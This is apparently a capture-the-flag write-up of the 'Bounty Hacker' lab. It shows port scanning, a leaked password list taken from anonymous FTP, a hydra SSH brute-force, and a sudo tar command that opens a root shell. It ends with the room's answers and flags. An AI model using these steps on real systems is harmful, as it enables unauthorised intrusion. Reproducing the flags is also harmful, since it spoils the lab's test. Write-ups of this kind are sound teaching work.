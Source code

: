 # Bounty Hacker

> Lorenzo De Simone | 21.05.2023

## Hosts 

```bash
export IP=10.10.224.202
``` 

## Enumeration

### Nmap

```console
└─$ sudo nmap -sV -sC -oN nmap/inital 10.10.224.202        
[sudo] password for lorenzo: 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-21 11:41 CEST
Nmap scan report for 10.10.224.202
Host is up (0.036s latency).
Not shown: 967 filtered tcp ports (no-response), 30 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: TIMEOUT
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.8.48.50
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 4
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 dcf8dfa7a6006d18b0702ba5aaa6143e (RSA)
|   256 ecc0f2d91e6f487d389ae3bb08c40cc9 (ECDSA)
|_  256 a41a15a5d4b1cf8f16503a7dd0d813c2 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 41.71 seconds
``` 
From the nmap scan we can see that **tcp/21**, **tcp/22** and **tcp/80** are the open ports on this machine

### Directory busting / Nikto

```console
gobuster dir -u http://10.10.224.202 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt | tee gobuster.log
```

```console
nikto -url http://10.10.224.202 | tee nikto.log
```

No interesting results from gobuster and nikto, maybe there is something on the ftp server on **tcp/21**

### FTP Server

Anonymous login was enabled, on the server there where 2 files, **tasks.txt** and **locks.txt**

```console
cat locks.txt 
rEddrAGON
ReDdr4g0nSynd!cat3
Dr@gOn$yn9icat3
R3DDr46ONSYndIC@Te
ReddRA60N
R3dDrag0nSynd1c4te
dRa6oN5YNDiCATE
ReDDR4g0n5ynDIc4te
R3Dr4gOn2044
RedDr4gonSynd1cat3
R3dDRaG0Nsynd1c@T3
Synd1c4teDr@g0n
reddRAg0N
REddRaG0N5yNdIc47e
Dra6oN$yndIC@t3
4L1mi6H71StHeB357
rEDdragOn$ynd1c473
DrAgoN5ynD1cATE
ReDdrag0n$ynd1cate
Dr@gOn$yND1C4Te
RedDr@gonSyn9ic47e
REd$yNdIc47e
dr@goN5YNd1c@73
rEDdrAGOnSyNDiCat3
r3ddr@g0N
ReDSynd1ca7e

cat task.txt 
1.) Protect Vicious.
2.) Plan for Red Eye pickup on the moon.

-lin
```

**locks.txt** Seems to be passwords, maybe for the lin user?

## Exploitation

### Access to the system

```console
hydra -l lin -P locks.txt 10.10.224.202 ssh -t 4      
Hydra v9.4 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-05-21 12:06:01
[DATA] max 4 tasks per 1 server, overall 4 tasks, 26 login tries (l:1/p:26), ~7 tries per task
[DATA] attacking ssh://10.10.224.202:22/
[22][ssh] host: 10.10.224.202   login: lin   password: RedDr4gonSynd1cat3
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2023-05-21 12:06:08

``` 
Hydra was able to find the passwort for lin. Found the user flag in **/home/lin/Desktop**

### Privilege Escalation

Machine seems to be broken but, lin should be able to run tar as sudo. Running tar as sudo we can spawn a **root shell**

GTFOBIN:
```console
tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
```

## Flags 

1. Who wrote the task list?
> lin

2. What service can you bruteforce with the text file found?
> ssh

3. What is the users password? 
> RedDr4gonSynd1cat3 

4. user.txt
> THM{CR1M3_SyNd1C4T3}

5. root.txt
> THM{80UN7Y_h4cK3r} 


